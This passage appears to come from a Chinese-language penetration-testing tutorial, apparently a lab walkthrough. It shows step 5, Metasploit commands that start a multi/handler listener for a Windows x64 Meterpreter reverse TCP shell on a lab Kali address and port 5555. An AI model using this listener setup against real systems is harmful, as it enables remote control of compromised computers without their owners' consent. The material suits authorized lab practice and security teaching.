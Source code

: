 ![Alt text](image-13.png)    

## 5. 打开kali的监听
```shell
 use exploit/multi/handler
 set Payload windows/x64/meterpreter/reverse_tcp
 # kali的ip
 set lhost 192.168.228.129
 set lport 5555
 exploit
```   